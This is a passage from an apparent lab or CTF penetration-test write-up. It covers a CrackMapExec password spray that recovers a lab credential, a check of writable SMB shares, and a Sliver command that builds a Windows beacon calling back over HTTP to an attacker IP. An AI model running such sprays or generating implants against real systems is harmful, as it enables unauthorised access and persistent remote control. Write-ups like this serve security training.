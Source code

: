 Since we didn’t have any passwords and couldn’t brute-force the logins as the accounts might get locked, we used the `username:username` credential combination and used CrackMapExec to perform a password spray attack.

<img src="attachments/7d66220602d9260981cdf1c264dfa7f0.png" />

We were able to obtain the `Carl.Moore` user credential from the attack.

```
Carl.Moore:Carl.Moore
```

We listed the available shares for that user and were able to see that the `SYSVOL` share is readable and that we have read/write permissions to the `docs` share.

<img src="attachments/623762207d3bee58cc25d7d24847f1d8.png" />

We were able to see the same `login.vbs` file we found earlier; however, we had read/write access to that folder.

<img src="attachments/eaca05f655348639b76b8a54271f6345.png" />

We generated an executable beacon using Sliver and started a listener.

```
generate beacon --os windows --arch amd64 --http 10.8.4.157 --save rev.exe
```

<img src="attachments/f2a0742f17147d000586eeefd7c1e4ad.png" />
